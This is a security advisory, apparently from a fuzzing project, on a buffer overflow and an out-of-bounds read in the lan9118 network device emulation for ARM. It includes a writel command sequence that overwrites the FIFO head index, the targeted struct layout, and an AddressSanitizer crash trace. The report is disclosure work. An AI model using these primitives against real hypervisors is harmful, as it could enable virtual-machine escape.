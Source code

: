 # None

# Buffer overflow and out-of-bounds read in lan9118 NIC for ARM

There is a buffer overflow in tx_fifo_push in lan9118 NIC for ARM causing an
out-of-bounds read of tx_status_fifo. The write and read primitives are so
powerful that they can likely be abused to escape the VM.

## Read primitive
In tx_status_fifo_pop, there is an out-of-bounds read at the line:
val = s->tx_status_fifo[s->tx_status_fifo_head];
because there is an overwrite of s->tx_status_fifo_head.

Security Impact: because s->tx_status_fifo_head is int32, so this read primitive
seems powerful.

## Buffer overflow and the write primitive

In tx_fifo_push, there are three states for tx_fifo: TX_IDLE, TX_B, TX_DATA.
However, because of the lack of the check of s->txp->len, we can visit
TX_IDLE->TX_B->TX_DATA many times to overflow s->txp->data whose size is only
2048 then overwrite s->tx_status_fifo_head.

This can be done like below. (Suppose the hardware address of lan9118 is 0x5000000.)

First, the max size of the buffer you can write once is 0x800. The pattern is in
the following.

	writel 0x5000020 0x800 // 0x800 bytes buffer you’d like to write
	writel 0x5000020 0x0
	writel 0x5000020 0x0 … (0x200 times) // issue 0x800 / 4 times

Second, repeat the first step (change the size of the buffer you’d like to
write) and reach where you’d like to overwrite.

```
    LAN9118Packet tx_packet;     // last field: data[2048]
    int32_t tx_status_fifo_used;
    int32_t tx_status_fifo_head; // overwrite this
    uint32_t tx_status_fifo[512];
```

If I’d like to overwrite tx_status_fifo_head, then I should issue instructions
in the following.

writel 0x5000020 0x8
writel 0x5000020 0x0
writel 0x5000020 0xaabbccdd // overwrite tx_status_fifo_used
writel 0x5000020 0xddccbbaa // overwrite tx_stats_fifo_head

Security Impact: Because we can repeat the first step without limit, this write
primitive seems very powerful.


## More details

### Hypervisor, hypervisor version, upstream commit/tag, host
None, None, None, None

### VM architecture, device, device type
arm, lan9118, net

### Bug Type: Buffer Overflow; Out-of-bouds Read

### Stack traces, crash details

```
AddressSanitizer:DEADLYSIGNAL
=================================================================
==426==ERROR: AddressSanitizer: SEGV on unknown address 0x62cf773fa008 (pc 0x561e8635387a bp 0x7fff71ca92a0 sp 0x7fff71ca9260 T0)
==426==The signal is caused by a READ memory access.
    #0 0x561e8635387a in tx_status_fifo_pop /root/qemu/build-oss-fuzz/../hw/net/lan9118.c:730:11
    #1 0x561e86352b79 in lan9118_readl /root/qemu/build-oss-fuzz/../hw/net/lan9118.c:1249:16
    #2 0x561e86aea48c in memory_region_read_accessor /root/qemu/build-oss-fuzz/../softmmu/memory.c:442:11
    #3 0x561e86ad2895 in access_with_adjusted_size /root/qemu/build-oss-fuzz/../softmmu/memory.c:552:18
    #4 0x561e86ad2895 in memory_region_dispatch_read1 /root/qemu/build-oss-fuzz/../softmmu/memory.c:1422:16
    #5 0x561e86ad2895 in memory_region_dispatch_read /root/qemu/build-oss-fuzz/../softmmu/memory.c:1450:9
    #6 0x561e86971a83 in flatview_read_continue /root/qemu/build-oss-fuzz/../softmmu/physmem.c:2810:23
    #7 0x561e86a2cf0a in address_space_read /root/qemu/include/exec/memory.h:2518:26
    #8 0x561e86a2cf0a in qtest_process_command /root/qemu/build-oss-fuzz/../softmmu/qtest.c:568:13
    #9 0x561e86a2cf0a in qtest_process_inbuf /root/qemu/build-oss-fuzz/../softmmu/qtest.c:797:9
    #10 0x561e86c15d5b in fd_chr_read /root/qemu/build-oss-fuzz/../chardev/char-fd.c:68:9
    #11 0x7f0e3bfa23a4 in g_main_context_dispatch (/usr/lib/x86_64-linux-gnu/libglib-2.0.so.0+0x4c3a4)
    #12 0x561e8707e8e7 in glib_pollfds_poll /root/qemu/build-oss-fuzz/../util/main-loop.c:231:9
    #13 0x561e8707e8e7 in os_host_main_loop_wait /root/qemu/build-oss-fuzz/../util/main-loop.c:254:5
    #14 0x561e8707e8e7 in main_loop_wait /root/qemu/build-oss-fuzz/../util/main-loop.c:530:11
    #15 0x561e86b38138 in qemu_main_loop /root/qemu/build-oss-fuzz/../softmmu/runstate.c:725:9
    #16 0x561e85ac86a5 in main /root/qemu/build-oss-fuzz/../softmmu/main.c:50:5
    #17 0x7f0e3ada2bf6 in __libc_start_main /build/glibc-S9d2JN/glibc-2.27/csu/../csu/libc-start.c:310
    #18 0x561e859ef589 in _start (/root/qemu/build-oss-fuzz/qemu-system-arm+0x1108589)

AddressSanitizer can not provide additional info.
SUMMARY: AddressSanitizer: SEGV /root/qemu/build-oss-fuzz/../hw/net/lan9118.c:730:11 in tx_status_fifo_pop
==426==ABORTING
```

## Contact

Let us know if I need to provide more information.
